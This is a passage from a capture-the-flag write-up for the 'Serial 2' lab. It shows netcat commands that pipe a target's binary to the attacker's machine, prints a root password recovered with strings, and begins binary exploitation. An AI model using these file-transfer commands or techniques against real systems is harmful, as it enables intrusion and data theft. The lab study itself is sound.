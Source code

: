 Start a new listener and redirect all the data received on it into a file.

Run `nc -nlvp 1337 > backd00r`

Format: `nc -nlvp PORT > BINARYNAME`

!["local_listener"](/Serial_2/5_image.png)
_Pipe all input from the listener to file._

Pipe all bytes from the file into the listener.

Run `cat /bin/backd00r | nc 192.168.1.6 1337`

Format: `cat /bin/backd00r | nc LHIP PORT`

!["connect_listener"](/Serial_2/6_image.png)
_Send all bytes of the file to the listener._

Run `chmod +x backd00r` to give the binary execution permissions.

We run a strings on the binary.

Run `strings backd00r`

Format: `strings BINARYNAME`

!["strings"](/Serial_2/7_image.png)
_Output of strings._

> root@serial2.vulnab's password:
>
> j&9GCS34MY+^4ud\*

It indicates that the following string is root password. So we make another attempt to login to the service using this password.

We then try and execute the binary from the user shell.

!["root"](/Serial_2/15_image.png)
_Obtained root shell._

The password is validated and we get the root shell. However, it does not allow us to read the `flag.txt` file. The shell is clearly a restricted one.

Similar thing happens when I try this tactic via the service on port 10000 from local host. Clearly there's more to the binary than we initially thought.

We are now getting into the arena of binary exploitation. You could just skip ahead to the end and use the given script to pwn the service if you do not want to get into this section.

# Binary Exploitation

We open the binary in IDA.

The binary is short and sweet, and there's not much to it.

!["main"](/Serial_2/10_image.png)
_The "main" function of the binary._
